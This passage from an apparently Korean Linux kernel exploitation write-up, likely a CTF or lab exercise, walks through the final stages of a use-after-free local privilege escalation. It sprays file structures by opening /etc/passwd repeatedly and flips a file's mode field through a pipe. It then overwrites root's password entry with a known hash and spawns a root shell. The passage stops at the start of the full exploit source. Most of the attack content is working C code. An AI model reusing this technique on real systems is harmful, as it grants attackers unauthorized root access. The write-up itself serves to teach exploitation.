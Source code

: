 7. **파일 구조체 재할당 (File Spray)**
    - `/etc/passwd` 파일을 여러 번 열어 UAF된 페이지에 file 구조체를 재할당시킵니다.
        
        ```c
        // 9. /etc/passwd 파일을 여러 번 열어, 해제된 페이지에 file 구조체가 재할당되도록 파일 스프레이
        printf("[*] Spraying /etc/passwd files...\n");
        for (int i = 0; i < FILE_NUM; i++) {
            file_fd[i] = open("/etc/passwd", 0);
            if (file_fd[i] < 0)
                errExit("Opening /etc/passwd failed");
        }
        ```
        
8. **파일 구조체 변조 및 `/etc/passwd` 덮어쓰기**
    - 남은 파이프(`prev`)를 통해 file 구조체의 `mode` 필드를 덮어 쓰기 가능 상태로 바꾼 후, 루트의 비밀번호를 변경한 내용을 `/etc/passwd`에 덮어씁니다.
        
        ```c
        // 10. prev_idx 파이프를 이용하여 passwd 파일 페이지를 덮어쓰도록 준비
        int mode = 0x480e801f; // 기본적으로 /etc/passwd 파일은 쓰기 권한 없이 열리므로 file->mode를 조작하여 쓰기 권한이 있도록 속임
        write(pipe_fd[prev_idx][1], &mode, 4);
        
        // 11. /etc/passwd를 덮어써서 root 계정의 비밀번호를 변경 (새 비밀번호: "root")
        char *data = "root:$1$root$9gr5KxwuEdiI80GtIzd.U0:0:0:test:/root:/bin/sh\n"; // openssl passwd -1 -salt root root
        printf("[*] Overwriting /etc/passwd root entry...\n");
        int data_size = strlen(data);
        for (int i = 0; i < FILE_NUM; i++) {
            int retval = write(file_fd[i], data, data_size);
            if (retval > 0) {
                printf("[+] /etc/passwd overwrite success: FD %d\n", i);
                system("id; cat /etc/passwd; sh"); // 반드시 sh 실행해야함. sh 실행안하면 kernel panic 뜨고 qemu 종료됨
            }
            //printf("%d\n", i);
        }
        ```
        

---

## 📌 **Step 4: 최종 Exploit 코드**

```c
#define _GNU_SOURCE
#include <err.h>
#include <errno.h>
#include <fcntl.h>
#include <sched.h>
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <sys/stat.h>

#define PIPE_NUM 0x80         // 128개의 파이프 생성
#define FILE_NUM 0x300        // /etc/passwd 스프레이용 FD 수

#define PEW_IOCTL_SET_OFFSET   0x1001
#define PEW_IOCTL_SET_VALUE    0x1002
#define PEW_IOCTL_WRITE_VALUE  0x1003

/* 에러 처리 함수 */
void errExit(char *msg) {
```